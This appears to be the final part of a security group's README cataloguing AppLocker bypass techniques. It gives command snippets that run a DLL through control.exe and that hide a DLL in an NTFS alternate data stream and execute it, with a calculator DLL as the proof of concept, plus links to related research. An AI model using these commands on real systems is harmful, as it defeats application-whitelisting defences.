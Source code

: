 https://twitter.com/subTee/status/793151392185589760





## 11.control


``` 
control  .\example\runcalc.dll
``` 



## 12.ADS
``` stylus
      type .\example\runcalc.dll >  .\example\demon:secist.dll 
      control   .\example\demon:secist.dll
``` 
LINK: https://twitter.com/bohops/status/954466315913310209

https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/


## Ultimate AppLocker ByPass List

LINK:
https://github.com/milkdevil/UltimateAppLockerByPassList



## 作者（About Us）

+ 即刻安全(Secist Sec)
   www.ggsec.cn
   
   www.secist.com
   ## 作者（About Us）

+即刻安全纯技术交流群：307283889


